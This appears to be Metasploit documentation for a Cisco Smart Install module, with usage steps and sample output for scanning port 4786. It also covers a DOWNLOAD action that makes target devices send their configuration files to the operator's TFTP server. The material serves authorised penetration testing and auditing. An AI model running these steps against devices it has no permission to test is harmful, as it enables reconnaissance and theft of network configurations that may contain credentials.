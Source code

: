 ## Vulnerable Application

  Any system exposing the Cisco Smart Install (SMI) protocol, which typically runs on TCP port 4786.

## Verification Steps

  1. Do: ```use auxiliary/scanner/misc/cisco_smart_install```
  2. Do: ```set ACTION SCAN```
  3. Do: ```set [RHOSTS]```, replacing ```[RHOSTS]``` with a list of hosts to test for the presence of SMI
  3. Do: ```run```
  4. If the host is exposing an identifiable SMI instance, it will print the endpoint.

## Options

### SLEEP
Time to wait for connection back from target. Default is `60` seconds if using `DOWNLOAD` action

### LHOST
Address to bind to for TFTP server to accept connections if using `DOWNLOAD` if using `DOWNLOAD` action

## Actions
There are two actions, default being ```SCAN```

  1. **SCAN** - Scan for Smart Install endpoints. [Default]
  2. **DOWNLOAD** - Request devices configuration and send to our TFTP server

## Scenarios

Using the default `SCAN` action
  ```
msf auxiliary(cisco_smart_install) > run

[*] Scanned  57 of 512 hosts (11% complete)
[*] Scanned 105 of 512 hosts (20% complete)
[*] Scanned 157 of 512 hosts (30% complete)
[*] Scanned 212 of 512 hosts (41% complete)
[*] Scanned 256 of 512 hosts (50% complete)
[*] Scanned 310 of 512 hosts (60% complete)
[*] Scanned 368 of 512 hosts (71% complete)
[*] Scanned 413 of 512 hosts (80% complete)
[*] Scanned 466 of 512 hosts (91% complete)
[+] a.b.c.d:4786   - Fingerprinted the Cisco Smart Install protocol
[*] Scanned 512 of 512 hosts (100% complete)
[*] Auxiliary module execution completed
```

Using the `DOWNLOAD` action

  ```
msf auxiliary(cisco_smart_install) > run
[*] a.b.c.d:4786   - Starting TFTP Server...
[*] a.b.c.d:4786   - Requesting configuration from device...
[*] a.b.c.d:4786   - Waiting 60 seconds for configuration
[*] a.b.c.d:4786   - Incoming file from a.b.c.d - jaPJDPpi.conf 14733 bytes
[*] a.b.c.d:4786   - Providing some time for transfers to complete...
[*] a.b.c.d:4786   - Shutting down the TFTP service...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
